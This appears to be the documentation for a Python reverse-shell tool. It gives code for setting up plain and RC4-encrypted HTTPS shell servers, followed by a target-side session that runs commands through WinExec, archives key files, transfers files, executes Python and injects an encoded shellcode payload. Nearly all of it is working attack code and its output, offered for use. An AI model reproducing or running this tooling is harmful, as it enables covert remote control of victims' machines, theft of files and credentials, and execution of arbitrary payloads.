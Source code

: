 ### Python3

```python
from ReverseShell import ReverseShellSocketTcp, ReverseShell

with ReverseShellSocketTcp(address=("127.0.0.1", 1337), ssl=False, cert=None, key=None, handler=ReverseShell) as shellserver:
    shellserver.serve_forever()

# To test this code you can use the shellclientsockettcp.py script. This is a standard/basic reverse shell compatible with netcat.

from ReverseShell import ReverseShellTcp, HttpReverseShell, partial

with ReverseShellTcp(address=("127.0.0.1", 1337), ssl=True, cert="server.crt", key="server.key", handler=partial(HttpReverseShell, key=b"abcd", encoding="utf-8")) as shellserver:
    shellserver.serve_forever()

# To test this command use the "shellclienthttpsencrypt_advanced.py abcd" command. This is an advanced HTTPS encrypted (using RC4 with "abcd" key) reverse shell.
```

### ReverseShell builtins commands

```
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents\ReverseShell$ call_library_function kernel32.dll WinExec "char *:calc.exe" "long:1"
Return value: 33
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents\ReverseShell$ archive_files test.zip *.md *.key
Making archive...
[*] 1 childs process are running...
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents\ReverseShell$ download_url http://google.com test.html
Done
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents\ReverseShell$ cd ..
done
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ update_environment
done
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ upload_file shellcode.py shellcode2.py
['shellcode.py', 'shellcode2.py']
done
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ download_file shellcode2.py
done
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ python3_exec print('qwerty')
qwerty
None
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ upload_file_compress shellcode.py shellcode2.py
['shellcode.py', 'shellcode2.py']
done
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ download_file_compress shellcode2.py
done
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ python3_exec_compress print('qwerty')
qwerty
None
WIN-TARGET@USER-TARGET:C:\Users\USER-TARGET\Documents$ shellcode SDHJSIHp3f///0iNBe////9Iu9MZW06IcMOdSDFYJ0gt+P///+L0L1HYqniYA53TGRofySCRzIVRapztOEjPs1HQHJA4SM/zUdA82DjMKplTFn9BOPJdfyU6Mopc49wS0FYPibEhcIFYCgYDIuMWkSUTT1j7QxXTGVsGDbC3+psYix4DONvZWFl7B4mgIMub5pIPA0RL1dLPFn9BOPJdf1iah4Uxwlzr+S6/xHOPudtcYp/9qJvZWFl/B4mgpdxYFRMKAzDf1NLJGsWM+IucA1gDD9AumseSQRoXySqLHj85Ghx3kJvcikMTxZqZlGIs5gYGMnHDndMZW06IOE4Q0hhbTsnK8ha8nqSbM5Det9lY4egdzV5iBlHYiqBMxeHZmaCu/XV42sBrNCSIKYIUCeaOLekcoLO2YT5OiHDDnQ==

```